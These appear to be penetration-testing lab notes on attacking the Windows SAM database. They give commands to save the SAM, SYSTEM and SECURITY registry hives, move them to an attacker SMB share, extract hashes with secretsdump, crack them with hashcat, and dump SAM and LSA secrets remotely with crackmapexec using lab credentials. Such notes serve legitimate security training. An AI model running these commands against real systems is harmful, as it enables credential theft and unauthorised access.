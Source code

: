 # Attacking SAM

### Copying SAM Registry Hives

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

We can create backups of these hives using the `reg.exe` utility.

```
cd C:\WINDOWS\system32
```

```cmd-session
 reg.exe save hklm\sam C:\sam.save
```

```cmd-session
reg.exe save hklm\system C:\system.save
```

```cmd-session
reg.exe save hklm\security C:\security.save
```

* to copy files use
  * \[\[Create SMB server Linux (HACK)]]

```cmd-session
move sam.save \\10.10.14.234\CompData
```

```cmd-session
move security.save \\10.10.14.234\CompData
```

```cmd-session
move system.save \\10.10.14.234\CompData
```

```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

**Cracking Hashes with Hashcat**

* \[\[Hashcat]]
* copy Hashes into file

```
31d6cfe0d16ae931b73c59d7e0c089c0
72639bbb94990305b5a015220f8de34e
3c0e5d303ec84884ad5c3b7876a06ea6
a3ecf31e65208382e23b3420a34208fc
c02478537b9727d391bc80011c2e2321
58a478135a93ac3bf058a5ea0e8fdb71
```

```shell-session
 sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

## Remote Dumping & LSA Secrets Considerations

* \[\[CrackMapExec]]

```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```
